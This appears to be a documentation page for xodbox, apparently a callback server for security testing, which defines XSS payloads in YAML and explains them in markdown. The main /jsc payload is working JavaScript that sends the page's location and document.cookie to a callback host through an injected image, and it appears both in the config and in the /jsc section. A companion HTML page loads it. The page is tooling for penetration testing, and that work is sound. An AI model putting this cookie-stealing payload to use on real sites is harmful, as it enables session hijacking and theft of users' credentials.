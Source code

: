 ```yaml
---
title: XSS Payloads
description: Returns JS that embeds an image back to xodbox
weight: -500
payloads:
  - sort_order: -500
    pattern: /jsc$
    data:
      headers:
        "Content-Type": "text/javascript"
      body: |
        (function (){
            var s = document.createElement("img");
            document.body.appendChild(s);
            s.src="{{ .CallBackURL}}?src="+window.location+"&c="+document.cookie;
        })()
  - sort_order: -500
    pattern: /jsc.html$
    data: 
      headers:
        "Content-Type": "text/html"
      body: |
        <!DOCTYPE html>
        <html>
          <head>
            <meta charset="utf-8">
          </head>
          <body>
            <script src="//{{.Host}}/jsc"></script>
          </body>
        </html>

---
```


### /jsc

Simple JS Payload. Useful form embedding or quickly copying and modifying for an XSS payload to prove execution and
exfil.

```javascript
(function (){
    var s = document.createElement("img");
    document.body.appendChild(s);
    s.src="//{{ .Host }}/jscb?src="+window.location+"&c="+document.cookie;
})()

```

### /jsc.html

Simple HTML to load simple JS Payload.

